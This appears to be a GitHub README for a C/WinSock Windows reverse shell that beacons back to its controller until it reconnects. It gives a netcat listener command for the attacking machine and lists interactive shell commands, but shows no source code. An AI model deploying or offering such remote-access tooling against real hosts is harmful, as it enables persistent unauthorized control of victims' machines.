# Beaconing-ReverseShell-C-WinSock
A Windows Beaconing Reverse shell written in C, on disconnect the agent will periodically beacon back home until a server is reachable.
### Usage
```
* Start Netcat Listener on attacking machine *
nc -lvp 443
* Run ReverseShell Agent on host *
.\RevShell.exe
```
### Commands
Shell comes with inline commands which can be called while a shell is live
```
> #Shell
  Agent Spawns a fully interactive shell (CLI applications compatible)
> #Commands
  List Commands
> #SendBreak
  Send Ctrl-C char to shell
> #Exit
  Close Shell
```
